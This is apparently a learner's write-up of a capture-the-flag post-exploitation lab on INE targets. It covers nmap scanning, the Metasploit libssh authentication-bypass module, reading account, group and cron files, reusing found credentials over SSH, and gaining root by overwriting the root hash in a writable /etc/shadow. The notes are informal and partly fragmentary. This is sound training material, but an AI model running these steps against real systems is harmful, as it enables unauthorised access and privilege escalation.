

Post-Exploitation refers to the phase in a penetration test or cyberattack that occurs after an attacker successfully gains access to a system or network. During this phase, the attacker aims to maximize the value of their access by escalating privileges, maintaining persistence, and gathering sensitive information. Post-exploitation techniques include pivoting to other systems, extracting passwords, exfiltrating confidential data, and leveraging compromised systems to further penetrate the network. The goal is to identify critical assets, assess the extent of the breach, and map out pathways for potential lateral movement within the target environment. Post-exploitation also focuses on covering tracks to evade detection and ensuring continued access, emphasizing the need for strong monitoring and rapid response mechanisms to prevent further compromise.

This lab is designed to challenge and refine your skills in Post-Exploitation techniques, focusing on identifying and uncovering hidden information within a target machine.

&nbsp;

# Lab Environment

In this lab environment, you will be provided with GUI access to a Kali Linux machine. Two machines are accessible at **http://target1.ine.local** and **http://target2.ine.local**.

**Objective:** Execute Post-Exploitation techniques on the target to uncover hidden flags and fully exploit the compromised environment.

**Flags to Capture:**

- **Flag 1**: The file that stores user account details is worth a closer look. (target1.ine.local)
- **Flag 2**: User groups might reveal more than you expect.
- **Flag 3**: Scheduled tasks often have telling names. Investigate the cron jobs to uncover the secret.
- **Flag 4**: DNS configurations might point you in the right direction. Also, explore the home directories for stored credentials.
- **Flag 5**: Use the discovered credentials to gain higher privileges and explore the root's home directory on target2.ine.local.

# Tools

The best tools for this lab are:

- Nmap
- FTP
- OpenSSL

**Flag 1: The file that stores user account details is worth a closer look. (target1.ine.local)**

First and most try to find target ip's

cat /etc/hosts

arp -a

dig target.ine.local

nslookup target.ine.local

ping target.ine.local

Then do the nmap

nmap -p- -sC -sV 192.58.111.4 -vvv -oA nmap full

nmap for second target

There is an exploit on metasploit for libssh

that named: scanner/ssh/libssh_auth_bypass

set spawn_pty true

set rhosts target1 ipl

set CreateSession true

run

d

&nbsp;

that file contains:

john:Pass@john123

lets enumerate users on system: flag1

**Flag 2: User groups might reveal more than you expect.**

cat /etc/group

**Flag 3: Scheduled tasks often have telling names. Investigate the cron jobs to uncover the secret.**

cat /etc/cron.d/

cat /etc/crontab

cat /etc/cron.d/\*

These commands are used to inspect scheduled tasks managed by **cron** on a Linux system. Here's what each command does:

### **1\. `cat /etc/cron.d/`**

- This command lists the contents of the **`/etc/cron.d/`** directory.
- However, if used alone, it does **not** display file contents—just the filenames inside this directory.

### **2\. `cat /etc/crontab`**

- This command displays the contents of **`/etc/crontab`**, which is the system-wide crontab file.
    
- It defines scheduled tasks and environment variables for system maintenance.
    
- Example structure of `/etc/crontab`:
    
- This means `/path/to/script.sh` runs every day at 2:00 AM as the root user.
    

### **3\. `cat /etc/cron.d/*`**

- This command displays the contents of **all** files in `/etc/cron.d/`.
    
- The `/etc/cron.d/` directory contains custom cron jobs defined by system packages or administrators.
    
- Example entry in a file inside `/etc/cron.d/`:
    
    - Runs `/usr/local/bin/backup.sh` at **3:30 AM daily** as the root user.

### **Why are these important for security and pentesting?**

- **Privilege Escalation**: If cron jobs run as root and execute scripts that can be modified by a low-privileged user, it may be possible to escalate privileges.
- **Persistence**: Attackers can add malicious cron jobs for persistence.
- **Misconfigurations**: Weak permissions or exposed credentials in scripts executed by cron can be exploited.

&nbsp;

&nbsp;

**Flag 4: DNS configurations might point you in the right direction. Also, explore the home directories for stored credentials.**

cat /etc/hosts

**Flag 5: Use the discovered credentials to gain higher privileges and explore the root's home directory on target2.ine.local.**

Let’s start nmap scan on target2, john:Pass@john123 and this credential might be useful.

ssh,smtp,http services are open. let’s try ssh with our credentials.

ssh john@192.178.236.3--> target2.ine.local

Password for john==> Pass@john123

We check file permissions and find that `/etc/shadow` is editable.

We generate a new password hash using OpenSSL

openssl passwd -1 -salt abc password

&nbsp;

vim /etc/shadow is not working try to nano /etc/shadow

remove the \* and add hash value

The hash is then used to replace the root password in `/etc/shadow`

We switch to the root user using our ‘password’

&nbsp;

we are root!!

for flag5 follow this video Linux Privilege Escalatioon - Weak Permiossions  https://my.ine.com/CyberSecurity/courses/4350487c/host-network-penetration-testing-post-exploitation
